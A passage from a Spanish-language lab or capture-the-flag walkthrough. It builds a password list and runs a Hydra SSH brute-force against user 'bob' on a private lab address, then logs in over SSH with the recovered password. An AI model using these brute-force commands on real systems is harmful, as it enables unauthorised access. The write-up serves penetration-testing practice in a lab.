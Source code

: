 ```bash
echo -e "123456\nchocolate\nletmein\nqwerty\nfuckyooh21" >> passwords.txt
```

![add_pass](img/add_pass.png)

## Explotación

### Fuerza bruta con Hydra

Probaremos las passwords encontradas hasta el momento con el usuario bob por el puerto 22 (ssh)

```bash
hydra -l bob -P passwords.txt ssh://10.0.2.33 -t 64 -V -f
```
![hydra](img/hydra.png)
![pass_bob](img/pass_bob.png)


Hemos logrado encontrar la clave ssh de bob.

NOTA: Nos damos cuenta que los passwords adicionales que encontramos en la carpeta hidden no nos sirvieron de todas maneras, a esto se conoce como rabbit hole, es decir, se trata de desviar nuestra atención para hacernos perder tiempo. A veces te darás cuenta cuando ya lo has probado todo por ese hilo, pero de eso se trata, de probar y probar, pero saber cuándo parar y darte cuenta que estás en un Rabbit Hole!

### Conexión por SSH

Ingresamos por ssh con las credenciales encontradas
```bash
ssh bob@10.0.2.33
```
![ssh_bob](img/ssh_bob.png)
